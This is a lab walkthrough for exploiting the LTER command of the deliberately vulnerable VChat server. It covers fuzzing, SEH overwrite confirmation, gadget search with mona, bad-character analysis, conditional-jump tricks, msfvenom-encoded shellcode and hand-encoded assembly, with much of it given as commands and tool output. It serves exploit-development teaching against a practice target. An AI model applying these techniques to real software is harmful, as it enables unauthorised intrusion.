# VChat Exploiting LTER: Overcoming Character Restrictions

*Notice*: The following exploit, and its procedures are based on the original [Blog](https://fluidattacks.com/blog/vulnserver-lter-seh/). When using Windows 10 the Manual encoding section required modification.
___

During this exploit we will use techniques to overcome the character restrictions, known as "Bad Characters" when exploiting remote processes over a TCP or UDP connection. In this case our limitations are imposed not only by the fact our communications are interpreted as strings, and the characteristics of the functions used to handle them (*strncpy* and *strcpy*). But also by the way the `LTER` function manipulates the strings; in this way we need to make more explicit use of encoders to ensure our payload is preserved. Encoders are used to modify a given binary to be encoded as some other set of bytes. A decoding function is them appended to the front of our transformed shellcode that will in some manner reconstruct the original binary that we originally used as input to the encoder. 

Unlike in previous exploits the main hurdle will not be space limitations on the stack, but the characters we are able to use in the exploit. At first glace this may not seem to be a big issue; However, as all of the assembly code is interpreted as machine code, each of which is represented as a character in our data this may limit not only the instructions available to us, but also the constant values we may use in the shell code.

**Note**: The final exploitation is not working for unknown reasons at this time. All other steps work as needed.


## Exploitation
### PreExploitation
1. **Windows**: Setup Vchat
   1. Compile VChat and it's dependencies if they has not already been compiled. This is done with mingw 
      1. Create the essfunc object File 
		```powershell
		$ gcc.exe -c essfunc.c
		```
      2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.   
		```powershell
		# Create a the DLL with an 
		$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
		```
         * ```-shared -o essfunc.dll```: We create a DLL "essefunc.dll", these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux. 
         * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate generate a import library "libessfunc".a" [2].
         * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
         * ```essfunc.o```: We build the DLL based off of the object file "essfunc.o"
      3. Compile the VChat application 
		```powershell
		$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
		```
         * ```vchat.c```: The source file is "vchat.c"
         * ```-o vchat.exe```: The output file will be the executable "vchat.exe"
         * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essefunc.dll"
   2. Launch the VChat application 
		* Click on the Icon in File Explorer when it is in the same directory as the essefunc dll
2. **Linux**: Run NMap
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the "-A" flag like the term aggressive as it does more than the normal scans, and is often easily detected.
   * This scan will also attempt to determine the version of the applications, this means when it encounters a non-standard application such as *VChat* it can take 30 seconds to 1.5 minuets depending on the speed of the systems involved to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command, this will give us some information regarding the available commands the server processes and the arguments they take. This provides us a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with ```CTL+]```
   * An example is shown below

		

4. **Linux**: We can try a few inputs to the *KSTET* command, and see if we can get any information. Simply type *KSTET* followed by some additional input as shown below

	

	* Now, trying every possible combinations of strings would get quite tiresome, so we can use the technique of *fuzzing* to automate this process as discussed later in the exploitation section.
	* In this case we will do some fuzzing to keep the exploit sections relatively consistent, but as you can see we know crashing this command will not take much!

### Dynamic Analysis 
### Dynamic Analysis 
This phase of exploitation is where we launch the target application or binary and examine its behavior based on the input we provide. We can do this both using automated fuzzing tools and manually generated inputs.

The actions the *LTER* command takes on the given input are a bit different compared to those of the other functions. This means our Dynamic Analysis phase will be slightly longer!
#### Launch VChat
1. Open Immunity Debugger

	 

    * Note that you may need to launch it as the *Administrator* this is done by right clicking the icon found in the windows search bar or on the desktop as shown below:
			
	

2. Attach VChat: There are Two options! 
   1. When the VChat is already Running 
        1. Click File -> Attach

			

		2. Select VChat 

			

   2. When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat

			

        2. Click "Debug -> Run"

			

        3. Notice that a Terminal was opened when you clicked "Open" Now you should see the program output

			
3. Ensure that the execution in not paused, click the red arrow (Top Left)
	
	

#### Fuzzing
SPIKE is a C based fuzzing tool that is commonly used by professionals, it is available in the [kali linux](https://www.kali.org/tools/spike/) and other [pen-testing platforms](https://www.blackarch.org/fuzzer.html) repositories. We should note that the original reference page appears to have been taken over by a slot machine site at the time of this writing, so you should refer to the [original writeup](http://thegreycorner.com/2010/12/25/introduction-to-fuzzing-using-spike-to.html) of the SPIKE tool by vulnserver's author [Stephen Bradshaw](http://thegreycorner.com/) in addition to [other resources](https://samsclass.info/127/proj/p18-spike.htm) for guidance. The source code is still available on [GitHub](https://github.com/guilhermeferreira/spikepp/) and still maintained on [GitLab](https://gitlab.com/kalilinux/packages/spike).

1. Open a terminal on the **Kali Linux Machine**
2. Create a file ```LTER.spk``` file with your favorite text editor. We will be using a SPIKE script and interpreter rather than writing out own C based fuzzer. We will be using the [mousepad](https://github.com/codebrainz/mousepad) text editor.
	```sh
	$ mousepad LTER.spk
	```
	* If you do not have a GUI environment, a editor like [nano](https://www.nano-editor.org/), [vim](https://www.vim.org/) or [emacs](https://www.gnu.org/software/emacs/) could be used 
3. Define the FUZZER parameters, we are using [SPIKE](https://www.kali.org/tools/spike/) with the ```generic_send_tcp``` interpreter for TCP based fuzzing.  
		
	```
	s_readline();
	s_string("LTER ");
	s_string_variable("*");
	```
    * ```s_readline();```: Return the line from the server
    * ```s_string("LTER ");```: Specifies that we start each message with the *String* KSTET
    * ```s_string_variable("*");```: Specifies a String that we will mutate over, we can set it to * to say "any" as we do in our case 
4. Use the Spike Fuzzer 	
	```
	$ generic_send_tcp <VChat-IP> <Port> <SPIKE-Script> <SKIPVAR> <SKIPSTR>

	# Example 
	# generic_send_tcp 10.0.2.13 9999 LTER.spk 0 0	
	```
    * ```<VChat-IP>```: Replace this with the IP of the target machine 
	* ```<Port>```: Replace this with the target port
	* ```<SPIKE-Script>```: Script to run through the interpreter
	* ```<SKIPVAR>```: Skip to the n'th **s_string_variable**, 0 -> (S - 1) where S is the number of variable blocks
	* ```<SKIPSTR>```: Skip to the n'th element in the array that is **s_string_variable**, they internally are an array of strings used to fuzz the target.
5. Observe the results on VChat's terminal output <!--Need to start here! -->

	

	* Notice that the VChat appears to have crashed after our third message. This is a message that is over 5000 characters long. So we can create a program like [exploit0.py](./SourceCode/exploit0.py) to send 5000 `A`s to repeatedly crash VChat.

7. We can see at the bottom of *Immunity Debugger* that VChat crashed due to a memory access violation. This means we may have overwritten the return address stored on the stack, leading to the EIP being loaded with an invalid address or overwrote a SEH frame. This error could have also been caused if we overwrote a local pointer that is then dereferenced... However, we know from previous exploits on VChat this is unlikely.

	

8. We can look at the comparison of the Register values before and after the fuzzing in Immunity Debugger, here we can see the EIP has **not been overwritten** with a series of `A`s (`0x41`). This means we likely overwrote the a SEH frame on the stack! 
	* Before 

		

	* After

		

      * The best way to reproduce this is to use [exploit0.py](./SourceCode/exploit0.py).
9. We can confirm that this is a SEH frame overwrite by looking at the SEH records after the overflow occurred.
	

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/28529e3d-62b9-4ea9-90e2-d4c98d6b3073

	1. Exploit the VChat server (If it has not already been done) with [exploit0.py](./SourceCode/exploit0.py).
	2. Open the SEH Chain records 

		

	3. See that a SEH record has been overwritten with the series of `A`s!

		

#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the SEH records are located on the stack. We can use the *Metasploit* program [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb). By analyzing the values stored in the SEH record's pointer, we can tell where in memory a SEH record is stored. 
	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
	```
	* This will allow us to inject a new address at that location where the SEH record is overwritten.
2. Run the [exploit1.py](./SourceCode/exploit1.py) to inject the cyclic pattern into the VChat program's stack and observe the SEH records. 

	

3. Notice that the EIP register reads `75FB6819` and remains unchanged, but we can see in this case the SEH record's handler was overwritten with `396D4538`. We can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the address offset based on out search strings position in the pattern. 
	```
	$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 396D4538
	```
	* This will return an offset as shown below; In this case the offset is `3506`

	 

4. The next thing that is done, is to modify the exploit program to reflect the file [exploit2.py](./SourceCode/exploit2.py)
   * We do this to validate that we have the correct offset for the return address!

		 

		* See that the SEH handler is a series of the value `42` that is a series of Bs. This tells us that we can write an address to that location in order to change the control flow of the program when an exception occurs.
		* Note: Sometimes it took a few runs for this to work and update on the Immunity debugger.
5. Now let's pass the exception to the program and see what happens and how this affects the stack using  the keybind `Shift+F7` (This should be displayed at the bottom of the screen).

	

    * We can see that the the `ESP` register (Containing the stack pointer) holds the address of `00EDEDC8`, however our buffer starts at `00EDEDD0`, which means we need to traverse 8 bytes before we reach a segment of the stack we control.

6. We can use the fact that our extra data is on the stack, and `pop` the extra data off into some register. The exact register does not really matter as we simply want to remove it from the stack. We can use `mona.py` to find a SEH gadget that pops two elements off the stack (8-bytes), which places the stack pointer `ESP` in the correct position for us to start executing code we inject into our buffer; Use the command `!mona seh -cp nonull -cm safeseh=off -o` in immunity debugger as shown below.

	

      * The `seh` command of *mona.py* finds gadgets to remove the extra 8-bytes before our buffer.
      * The `-cp nonull` flag tells *mona.py* to ignore null values.
      * The `-cm safeseh=off` flag tells *mona.py* to ignore safeseh modules (The program was not compiled for safe SEH).
      * The `-o` flag tells *mona.py* to ignore OS modules.

	

      * We can see there are quite a number of options, any one of them should work. For the examples we will be using the address `625016BF`. This address was chosen to exhibit the Bad Character behavior. 
	  * *Note*: If you do not see any output it may be hidden behind the one of the Immunity Debugger windows.

7. Use a program like [exploit3.py](./SourceCode/exploit3.py) to verify that this works. 

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/56abcbb0-42fc-433f-8730-5c55754df014
   
   1. Click on the black button highlighted below, enter in the address we decided in the previous step

		

   2. Set a breakpoint at the desired address (Right click)

		

   3. Run the [exploit3.py](./SourceCode/exploit3.py) program till a overflow occurs (See SEH record change)

		 

         * Notice that the SEH record's handler now points to an essefunc.dll address!
		 * However, this is not the address we passed in `625016BF`. It is `62501640`!

	4. Once the overflow occurs pass the exception using `Shift+F7`, we will see that we do **not** hit our breakpoint

		 

#### Determining Bad Characters

1. At this time we do not know what characters are considered "bad" as all of our previous exploits conformed to the ASCII characters which range in value from 0 to 127 (`0x00` - `0x7f`)
	
	 
	
	* This ASCII table is from [Wikipedia](https://simple.wikipedia.org/wiki/File:ASCII-Table-wide.svg), there are many other alternatives that can be found.

2. As the range of possible ANSI values is limited 0 - 256 (`0x00` - `0xFF`) as they consist of 1 byte (8 bits) we can try sending all possible values to the *LTER* VChat command and see how it reacts. If we were handling Unicode characters, this becomes less feasible due to the number of possible inputs (Unicode characters are up to 4 bytes!). There are two methods for generating the set of values we will be sending to the VChat server.

	1. Using [mona.py](https://github.com/corelan/mona) and Immunity Debugger we can with the command `!mona bytearray` generate all possible ANSI character values, however we may want to exclude known bad characters such as the null terminator (`0x00`), line feed (`0x0A`), and carriage return (`0x0D`). This can be done with the command `!mona bytearray -cpb '\x00\x0a\x0d'` as shown below:

		

		* For ease of access you can open a file `bytearray.txt` in the folder `C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.txt` 
		* Code using this method is provided in [exploit4a.py](./SourceCode/exploit4a.py).
	2. The second method is inline generation of characters in the exploit script. There are many ways you can do this generation but two examples are provided in [exploit4b.py](./SourceCode/exploit4b.py) and [exploit4c.py](./SourceCode/exploit4c.py) from the original blog which uses a python oneliner.

3. Run any of the  [exploit4a.py](./SourceCode/exploit4a.py), [exploit4b.py](./SourceCode/exploit4b.py) or [exploit4c.py](./SourceCode/exploit4c.py) programs. It should be noted that additional characters are added to the payload to crash the VChat server, allowing us analyze the memory of the program at the time of the crash.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/50c38f38-0ff7-46eb-9f58-9fd80fcabd00

4. Ensure that in Immunity Debugger's Stack viewer we are showing the ASCII dump, we can see that out byte array has been written to the stack!

	

5. Right click the `ECX` or `EBP` registers and select *Follow in Dump* as shown below, this will allow us to more easily follow the byte array we have sent as the stack view does not allow us to see much of it at the same time.

	

	* We can see that the values from `0x01` - `0x7F` have successfully been written to the stack; after this the input seems to loop back around and the pattern repeats.

	

6. `mona.py` again provides us a better way of viewing this information! We can use the following command 

	```
	!mona cmp -f C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin -a <memory address of array>
	```
	* This compares the contents of the bytearry we had generated, and the contents starting at an address we specify 
		* `!mona cmp`: Mona comparison function
		* `-f`: Compare the contents of a file (You will need to modify this to match the location of this file on your computer!)
		* `-a`: Compare the contents of a memory address 

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/0aa8ddb2-ec19-4a56-abec-80008a490a9c

	1. Get the address of the start of the array. The easiest way to do this is to pull it from the stack. We can see from the dump (and stack ASCII dump) that out character array starts 2 bytes in from the stating address. 

		

		* This means from the stack address `0107F21C` we can get the starting address by adding 2 to get `0107F21E`.

	2. Run the `!mona cmp -f C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin -a <Address>` command!

		

		```
		0BADF00D  [+] C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin has been recognized as RAW bytes.
		0BADF00D  [+] Fetched 253 bytes successfully from C:\Users\Malware Analysis\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin
		0BADF00D      - Comparing 1 location(s)
		0BADF00D  Comparing bytes from file with memory :
		0107F21E  [+] Comparing with memory at location : 0x0107f21e (Stack)
		0107F21E  Only 125 original bytes of 'normal' code found.
		0107F21E      ,-----------------------------------------------.
		0107F21E      | Comparison results:                           |
		0107F21E      |-----------------------------------------------|
		0107F21E    0 |01 02 03 04 05 06 07 08 09 0b 0c 0e 0f 10 11 12| File
		0107F21E      |                                               | Memory
		0107F21E   10 |13 14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22| File
		0107F21E      |                                               | Memory
		0107F21E   20 |23 24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32| File
		0107F21E      |                                               | Memory
		0107F21E   30 |33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42| File
		0107F21E      |                                               | Memory
		0107F21E   40 |43 44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52| File
		0107F21E      |                                               | Memory
		0107F21E   50 |53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62| File
		0107F21E      |                                               | Memory
		0107F21E   60 |63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72| File
		0107F21E      |                                               | Memory
		0107F21E   70 |73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82| File
		0107F21E      |                                       01 02 03| Memory
		0107F21E   80 |83 84 85 86 87 88 89 8a 8b 8c 8d 8e 8f 90 91 92| File
		0107F21E      |04 05 06 07 08 09 0a 0b 0c 0d 0e 0f 10 11 12 13| Memory
		0107F21E   90 |93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f a0 a1 a2| File
		0107F21E      |14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22 23| Memory
		0107F21E   a0 |a3 a4 a5 a6 a7 a8 a9 aa ab ac ad ae af b0 b1 b2| File
		0107F21E      |24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32 33| Memory
		0107F21E   b0 |b3 b4 b5 b6 b7 b8 b9 ba bb bc bd be bf c0 c1 c2| File
		0107F21E      |34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42 43| Memory
		0107F21E   c0 |c3 c4 c5 c6 c7 c8 c9 ca cb cc cd ce cf d0 d1 d2| File
		0107F21E      |44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52 53| Memory
		0107F21E   d0 |d3 d4 d5 d6 d7 d8 d9 da db dc dd de df e0 e1 e2| File
		0107F21E      |54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62 63| Memory
		0107F21E   e0 |e3 e4 e5 e6 e7 e8 e9 ea eb ec ed ee ef f0 f1 f2| File
		0107F21E      |64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73| Memory
		0107F21E   f0 |f3 f4 f5 f6 f7 f8 f9 fa fb fc fd fe ff         | File
		0107F21E      |74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80         | Memory
		0107F21E      `-----------------------------------------------'
		0107F21E  
		0107F21E                  | File      | Memory    | Note       
		0107F21E  -----------------------------------------------------
		0107F21E  0   0   125 125 | 01 ... 7f | 01 ... 7f | unmodified!
		0107F21E  -----------------------------------------------------
		0107F21E  125 125 128 128 | 80 ... ff | 01 ... 80 | corrupted  
		0107F21E  
		0107F21E  Possibly bad chars: 80
		0107F21E  Bytes omitted from input: 00 0a 0d
		```
7. We can now see that starting at the value `0x80` the contents of our file generated with `!mona bytearray` differ from the contents in memory
	```
		0107F21E   70 |73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82| File
		0107F21E      |                                       01 02 03| Memory
	```
	* This means out valid characters are in the range `0x00` - `0x7F`. Excluding the known bad characters that are the null terminator (`0x00`), line feed (`0x0A`), and carriage return (`0x0D`). 

#### SEH Handler
1. The first thing that we need to do, is fix the address we use to overwrite the SEH handler. We can again use `mona.py` to find *seh* gadgets, and filter out those that contain bad characters.

	```
	!mona seh -cm safeseh=off -cp nonull,ascii -o -cpb '\x0a\x0d'
	```
	* `seh`: Locate seh gadgets `pop pop ret` to enter into our controller region of the stack from a SEH exploit. 
	* `-cm safeseh=off`: Exclude safeseh modules
	* `-cp nonull,ascii`: Only show pointers (Addresses) that do not contain null characters and are ASCII values.
	* `-o`: Ignore OS modules 
	* `-cpb '\x0a\x0d'`: Specify bad characters that disqualify a gadget from being included in the results. 

	

	* In this case we have 17 pointers down from the previous 34.

2. Use a program like [exploit5.py](./SourceCode/exploit5.py) to verify that this works. 

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/9445880b-f509-4e3c-9b2a-3329cf40f6bd
   
   1. Click on the black button highlighted below, enter in the address we decided in the previous step

		

   2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

		

   3. Run the [exploit5.py](./SourceCode/exploit5.py) program till a overflow occurs (See SEH record change)

		

         * Notice that we have now hit the breakpoint at `6250184E`!

	4. Once we click run and get VChat to crash, we can examine the SEH chain and see the overwritten SEH handler.

		

	5. Once we pass the exception using `Shift + F7`, we can step through the program and see we have arrived back onto the stack near the buffer we control, but we have arrived 4-bytes ahead of the address we used to overwrite the SEH handler! 

		

#### Short Jump
1. Unlike in the [GMON_SEH](https://github.com/DaintyJet/VChat_GMON_SEH) exploit, we cannot use a short jump. As shown below, the short jump instruction contains `0xEB` as part of the operation code. This means we cannot use it, as this is outside of the range of characters `0x00` - `0x7F` and will be turned into 0x6C, which is no longer our intended instruction.

	

2. There are a number of possible [conditional jumps](https://riptutorial.com/x86/example/20470/conditional-jumps) in the x86 architecture. These use a series of status flags set by the CPU during some previous instruction such as [*test*](https://www.felixcloutier.com/x86/test). There are a few possible jumps we can use, but the easiest are those that only have two possible outcomes. 
	1. We can use the *jump zero* `jz <ADDR>` instruction to preform a short jump which does not contain any bad characters. To do this we can modify the exploit program to reflect [exploit6.py](./SourceCode/exploit6.py); we can generate the machine code using the program `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` on the Kali Linux machine.
		* `JNZ SHORT +0x10 (\x75\x08)`: If the Zero status flag is equal to 0 preform a short jump ahead `0x10` bytes
		* `JZ SHORT +0x08 (\x75\x06)`: If the Zero status flag is equal to 1 preform a short jump ahead `0x08` bytes

	

	2. Now we can check if this exploit works and preserves the SEH chain; We do this by setting the breakpoint and running the [exploit6.py](./SourceCode/exploit6.py) program as we did for [exploit5.py](./SourceCode/exploit5.py) in the second step of the [SEH Handler](#seh-handler) section.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/6a5b6fa3-0a6a-4a59-9b39-e860f33072dc

#### Long Jump and Encoding
1. Now, we have jumped onto the part of hte buffer that contains out `C`s, and this only has 41 bytes of space available, in the [GMON_SEH](https://github.com/DaintyJet/VChat_GMON_SEH) exploit we preformed a long jump as shown below:
	
	

	* Notice that the long jump operation code (`E9 43F2FFFF`) begins with `0xE9`, this is outside of the allowed range of `0x00` to `0x7F`, so we cannot directly use the long jump. We need to try encoding it!

2. We will need to generate some files containing binary for the encoder to work, this can be done in 2 different ways.

	1. Use the program [generate_shell.py](./SourceCode/generate_shell.py) to generate both files.
	2. Use the python interpreter directly to generate the files 
		* ` python -c "buff= b'\xe9\x43\xf2\xff\xff'; fd = open('jmp_l.bin', 'wb'); fd.write(buff)"`: Generate the long jump binary
		* `python -c "buff= b'\xeb\x80'; fd = open('jmp_s.bin', 'wb'); fd.write(buff)"`: Generate the short jump binary
3. Now we can try using preexisting encodes, some easy one to try are provided by [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html). We omit the lengthy bad character list since the main challenge at this stage is the space we have to work with; which is what this attempts to point out!

	```
	msfvenom -p - -a x86 --platform windows -e <Encoder> -o /dev/null
	```
	*  `msfvenom`: The MSFVenom command
	* `-p -`: Specify the payload as something taken from stdin (Terminal input)
	* `-a x86`: Specify the target architecture as `x86`
	* `--platform windows`: Specify the target platform as Windows
	* `-e <Encoder>`: Specify the encoder to use, we can list all possible encoders with `msfvenom -l encoders` 
	* `-o /dev/null`: Specify the output file, since we just want to see the size of the resulting shellcode we do not want to save it (Write to /dev/null).

	1. Try [`x86/add_sub`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/add_sub) encoder on the long jump `jmp_l.bin`. This preforms a series of additions and subtractions to encode the shellcode for transmission, and recover the original instructions in memory at runtime. 
		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/add_sub -o /dev/null
		```
		* This results in the following output, notice that it fails! We have a 5 byte instruction, which is not divisible by 4! 
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/add_sub -o /dev/null 
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/add_sub
		x86/add_sub failed with Shellcode size must be divisible by 4, try nop padding.
		Error: No Encoder Succeeded
		```
	2. Try [`x86/alpha_mixed`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/alpha_mixed) encoder on the long jump `jmp_l.bin`. This encodes the payload as a series of mixed case (Upper/Lower) alphanumeric characters which will then be recovered to the original instructions in the memory of the target machine at runtime. 

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
		```

		* This results in the following output, we cannot use this as we do not have the required amount of space! 

		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/alpha_mixed
		x86/alpha_mixed succeeded with size 71 (iteration=0)
		x86/alpha_mixed chosen with final size 71
		Payload size: 71 bytes
		Saved as: /dev/null
		```
	
	3. Try [`x86/opt_sub`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/opt_sub) encoder on the long jump `jmp_l.bin`. This encodes the payload as a series of subtraction instructions and will write the encoded value to the ESP. 

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
		```

		* This results in the following output, we cannot use this as we do not have the required amount of space! 

		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/opt_sub
		x86/opt_sub succeeded with size 61 (iteration=0)
		x86/opt_sub chosen with final size 61
		Payload size: 61 bytes
		Saved as: /dev/null
		```
	3. Try [`x86/shikata_ga_nai`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) encoder on the long jump `jmp_l.bin`. This is a complicated encoding scheme that generates the payload with a polymorphic XOR additive feedback encoder. 

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -o /dev/null
		```
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		x86/shikata_ga_nai succeeded with size 32 (iteration=0)
		x86/shikata_ga_nai chosen with final size 32
		Payload size: 32 bytes
		Saved as: /dev/null
		```
		
		* This results show above show us we can use this in the exploit, we could use it by modifying the command to output the shellcode in the format expected by python as shown below!
		
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f python -v SHELL -b '\x00x\0a\x0d'
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		x86/shikata_ga_nai succeeded with size 32 (iteration=0)
		x86/shikata_ga_nai chosen with final size 32
		Payload size: 32 bytes
		Final size of python file: 180 bytes
		SHELL =  b""
		SHELL += b"\xbe\x55\xf3\x3a\xe6\xda\xdd\xd9\x74\x24\xf4\x5f"
		SHELL += b"\x29\xc9\xb1\x02\x31\x77\x13\x03\x77\x13\x83\xc7"
		SHELL += b"\x51\x11\xcf\x0f\x1a\x27\xcf\x2f"
		```

	4. The primary focus of this will be manually encoding the long jump instruction, but an example using the [`x86/shikata_ga_nai`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) output is included in [exploit7a.py](./SourceCode/exploit7a.py); we can see there are a few issues!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/7bcab6a2-4b9a-4f8d-99bb-676b9a7855d4
		
		* Below is the encoded shellcode once it has been injected 

			

4. Now we can go about manually encoding the short jump! This is so we can get the space to use a pre-made encoder to create our long jump!
	
	https://github.com/DaintyJet/VChat_LTER/assets/60448620/d75ea194-1beb-4e5d-b9a0-3addc3748fe0

	1. First we want ot adjust the `ESP` register's value so in the course of our exploit we do not overwrite our own shellcode. This can be done with the following series of instructions.
	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack 
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	ADD AX,0x<VALUE>  ; Add to the lower 16 bytes of the register 
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	``` 
	* For the add instruction we need to do a little math! My ESP during this exploitation is at `0x010CEDE0`, the end of the 41 byte buffer is at `0x010CFFFF`, to get this we need to add `0x0000121F`.
		1. We could try adding this to the lower 16 bits in 2 instructions (The lower and upper lower half), however the `ADD AH,0x12` instruction has the value of `0x80C412` which contains a bad character `C4`!
			```
			ADD AL,0x1F
			ADD AH,0x12
			```
		2. Using the AX register allows us to do the addition in one instruction, without any bad characters 
			```
		    ADD AX,0x121F
			```
		3. If your addition constant contains a bad character, you may need to preform 2 or more additions with values containing only good characters as shown below to get the same result as the single addition.
		```
		; Bad Char Addition contains 0xD3
		ADD AX,0x13D3   

		; Multiple additions containing only good characters to get the same result as ADD AX,0x13D3  
		ADD AX,0x097F
		ADD AX,0x0a54
		```
		4. We can generate this assembly by right clicking the instruction view window at the location we would like to modify the program and selecting assemble 

			

		5. We then enter in the instruction we would like to assemble 

			

		6. Repeat the assembly steps (4,5) for all of the other instructions

	2. We can modify the exploit program to reflect [exploit7b.py](./SourceCode/exploit7b.py) and test the program as we have done previously.

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/898f0366-649e-4b49-88bc-3a613e69380f

		1. Click on the black button highlighted below, enter in the address we decided in the previous step

			

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

			

		3. Run [exploit7b.py](./SourceCode/exploit7b.py), and pass the exception to the VChat program

			

	3. We will now add instructions to create a zeroed register value

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/20beb107-c4bb-45ec-a2d1-9d5341d6fa04

		1. We will not be using the traditional `XOR EAX,EAX` instruction as the use of a register for a source leads to a bad char as we use `C0` to identify `EAX`.

			

		2. An alternative method of creating a zeroed register without using any of the bad characters is to use the `AND` instruction twice. We first preform a boolean `AND` operation on the EAX register with some 32-bit value. We then preform a second boolean `AND` operation on the EAX register with some other value that when a `AND`ed produces a 0 . The challenge is finding a value that has no bad characters and who's logical inverse also contains no bad characters. 

			```
			AND EAX,0x554E4D4A 
			AND EAX,0x2A313235
			```

			* Preforming the bitwise AND of these two value will result in a 0
			```
			0101 0101 0100 1110 0100 1101 0100 1010
			
			AND

			0010 1010 0011 0001 0011 0010 0011 0101

			---------------------------------------
			0000 0000 0000 0000 0000 0000 0000 0000
			```
				
